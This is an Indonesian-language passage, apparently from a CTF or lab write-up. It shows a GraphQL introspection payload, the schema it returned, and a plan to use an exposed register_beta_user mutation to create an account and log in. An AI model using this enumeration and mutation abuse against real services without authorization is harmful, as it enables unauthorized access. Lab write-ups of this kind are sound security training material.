ternyata dia menggunakana graphql untuk autentikasi loginnya

langsung saja kita cari teknik hack graphql di https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql

kita lihat schema dari graphql menggunakan payload berikut:
```json
{__schema{types{kind,name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}
```
hasil:
```json
...snip..
{"kind":"OBJECT","name":"Mutation","fields":[{"name":"login","args":[{"name":"username","description":null,"type":{"name":"String","kind":"SCALAR","ofType":null}},{"name":"password","description":null,"type":{"name":"String","kind":"SCALAR","ofType":null}}]},{"name":"register_beta_user","args":[{"name":"username","description":null,"type":{"name":"String","kind":"SCALAR","ofType":null}},{"name":"password","description":null,"type":{"name":"String","kind":"SCALAR","ofType":null}}]},{"name":"redeem","args":[{"name":"voucher","description":null,"type":{"name":"JSON","kind":"SCALAR","ofType":null}}]}]},
...snip...
```

Disitu ada name register beta user yang menerima argumen username dan password (kemungkinan digunakan untuk register user)

Dari situ kita tinggal membuat user baru

![](Pasted%20image%2020221127092221.png)

dan login menggunakan user tersebut
